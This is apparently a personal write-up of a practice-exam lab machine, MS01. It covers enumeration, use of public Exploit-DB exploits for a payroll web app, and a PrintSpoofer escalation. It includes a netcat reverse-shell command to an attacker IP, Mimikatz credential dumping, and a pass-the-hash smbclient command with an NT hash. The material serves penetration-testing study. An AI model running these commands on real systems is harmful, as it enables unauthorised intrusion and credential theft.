---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# MS01

## Enumeration

```
Nmap scan report for 192.168.152.141
Host is up (0.052s latency).
Not shown: 65516 closed tcp ports (reset)
PORT      STATE SERVICE         VERSION
22/tcp    open  ssh             OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
80/tcp    open  http            Apache httpd 2.4.51 ((Win64) PHP/7.4.26)
|_http-server-header: Apache/2.4.51 (Win64) PHP/7.4.26
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Nicepage 4.8.2, nicepage.com
|_http-title: Home
81/tcp    open  http            Apache httpd 2.4.51 ((Win64) PHP/7.4.26)
|_http-server-header: Apache/2.4.51 (Win64) PHP/7.4.26
|_http-title: Attendance and Payroll System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql           MySQL (unauthorized)
3307/tcp  open  opsession-prxy?
5040/tcp  open  unknown
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc           Microsoft Windows RPC
49665/tcp open  msrpc           Microsoft Windows RPC
49666/tcp open  msrpc           Microsoft Windows RPC
49667/tcp open  msrpc           Microsoft Windows RPC
49668/tcp open  msrpc           Microsoft Windows RPC
49669/tcp open  msrpc           Microsoft Windows RPC
49670/tcp open  msrpc           Microsoft Windows RPC
52783/tcp open  msrpc           Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/1%OT=22%CT=1%CU=34601%PV=Y%DS=4%DC=T%G=Y%TM=66AC1
OS:476%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=I%TS=U)OPS(O1=M551
OS:NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)W
OS:IN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=F
OS:FFF%O=M551NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N
OS:)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=BED2%RUD=G)IE(R
OS:=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-01T23:04:02
|_  start_date: N/A

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   51.40 ms 192.168.45.1
2   51.38 ms 192.168.45.254
3   52.01 ms 192.168.251.1
4   52.24 ms 192.168.152.141
```

### Anonymous Services

No entry:

<figure><figcaption></figcaption></figure>

### Web Server Port 80


<figure><figcaption><p>Landing page on port 80</p></figcaption></figure>

I poke around for awhile but there is not much there. I cannot find any input fields that actually work to test for SQLi.

#### WhatWeb

I run whatweb against the server:


```bash
whatweb --log-verbose=p80.whatweb http://ms01.oscp
```


The highlights:

<figure><figcaption><p>Whatweb report</p></figcaption></figure>

#### feroxbuster

I run feroxbuster against the port. It turns up some things the only interesting thing was a /scripts directory which contained a `GPO.ps1` PowerShell script and a `how to use the program.txt` file explaining how to use the script. It seems to require local access so I just save it for now

### Web Server Port 81

There is a landing page with what appears to be a time clock but I cannot make it do anything:

<figure><figcaption><p>Landing page</p></figcaption></figure>

I look around and run `whatweb` but nothing stands out.

#### feroxbuster

Turns up link `http://ms01.oscp:81/DB/apsystem.sql` which when browsed downloads the `apsystem.sql` file:

<figure><figcaption><p>feroxbuster</p></figcaption></figure>

Inside that file are what appear to be credentials:

<figure><figcaption><p>Hashed credentials</p></figcaption></figure>

I check [hashes.com](https://hashes.com/en/tools/hash\_identifier) and it identifies the hash type as bcrypt which is slow to crack IIRC. However, again it offers the [decrypt](https://hashes.com/en/decrypt/hash) option which reveals the password:

<figure><figcaption><p>Cracked hash</p></figcaption></figure>

I test this on the admin portal but it does not work. I try it a few other places but no luck. Back to the drawing board.

## Foothold

#### EDB 50802

I decide to google the name of the file `apsyostem.sql` and the very first hit is [this EDB page](https://www.exploit-db.com/exploits/50802) which informs me of what the system is called (Attendance and Payroll System) and offers a way to leak the `PHPSESSID` cookie of the `admin` user.

My first attempts at the exploit fail but then I realize it is because I need to modify the paths to the login.php page because the writer of the exploit had a different web root. Once I set it up correctly it works:

<figure><figcaption><p>Leaked cookie</p></figcaption></figure>

I can then use that cookie and navigate to the `admin` panel:

<figure><figcaption><p>Admin panel with cookie</p></figcaption></figure>

Unfortunately as I look around there is no way to upload a file so getting code execution seems out.

#### EDB 50801

Back to google. This time I search the software "Attendance and Payroll System RCE" and find a [different EDB](https://www.exploit-db.com/exploits/50801) by the same author. This one is unauthenticated RCE. I again modify the paths for this installation's URLs and have a shell:

<figure><figcaption><p>RCE</p></figcaption></figure>

I forgot it was a Windows machine for a second but user access achieved as `MS01\mary.williams`. It also looks like this machine might be able to serve as a pivot since it seems to have a `10.10.XXX.0/24` interface which is the internal address space for this exam.&#x20;

## Privilege Escalation

I notice my user has `SeImpersonatePrivilege` and exploit it with PrintSpoofer to launch a Netcat shell to my machine at port 8000:


```
PrintSpoofer.exe -c "nc.exe -e cmd.exe 192.168.45.154 8000"
```


<figure><figcaption><p>SYSTEM shell</p></figcaption></figure>

## Post Exploit

Now that I have a `SYSTEM` shell I run Mimikatz and setup a [`ligolo_ng`](../../../attack-vectors/port-forwarding-and-tunneling/ligolo-ng.md) proxy to the internal network.

### Mimikatz

<figure><figcaption><p>Mimikatz output</p></figcaption></figure>

I find one user who appears to be domain-connected: `OSCP\celia.almeda`.

#### Validating Hash

Spray hash with CME:

<figure><figcaption><p>celia.almeda in CME</p></figcaption></figure>

SMB but no WinRM.

I grab a copy of `\setup` before moving on:


```bash
smbclient '\\ms01.oscp\setup\' -U 'celia.almeda' --pw-nt-hash e728ecbadfb02f51ce8eed753f3ff3fd -W OSCP -c 'mask"";prompt OFF;recurse ON;mget *'
```


<figure><figcaption><p>Contents of setup share</p></figcaption></figure>

I use this pivot to start enumerating the domain.
